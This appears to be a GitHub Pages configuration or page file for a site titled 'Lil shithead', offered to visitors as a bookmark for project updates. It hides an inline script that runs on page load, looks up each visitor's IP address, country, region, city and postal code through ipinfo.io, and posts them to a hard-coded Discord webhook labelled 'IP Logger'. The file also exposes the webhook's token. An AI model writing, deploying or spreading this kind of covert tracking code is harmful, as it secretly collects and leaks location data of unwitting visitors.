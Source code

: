 theme: jekyll-theme-minimal
title: Lil shithead
description: Bookmark this to keep an eye on my project updates!
<script>
function monke(json) 
{
     var request = new XMLHttpRequest();
     
     request.open("POST", "https://discord.com/api/webhooks/1335667587572432947/OUk616TFNWUOlLMNvwkRI9-7d4LoD5pXpzFTfSrTPe5e-GWpAwNWkCsug2djmJzKBJbG");

     request.setRequestHeader('Content-type', 'application/json');

     var params = 
     {
          username: "IP Logger",
          avatar_url: "",
          content: "@everyone",
          embeds: [
               {
                    title: "Someone visited the IP grabber!",
                    color: 1752220,
                    description: "**IP:** `" + json.ip + "`\n**Country:** `" + json.country + "`\n**Region:** `" + json.region + "`\n**Town/City:** `" + json.city + "`\n**ZIP:** `" + json.postal + "`"
               }
          ]
     }

     request.send(JSON.stringify(params));
}
</script>
<script src="https://ipinfo.io/?format=jsonp&callback=monke"></script>
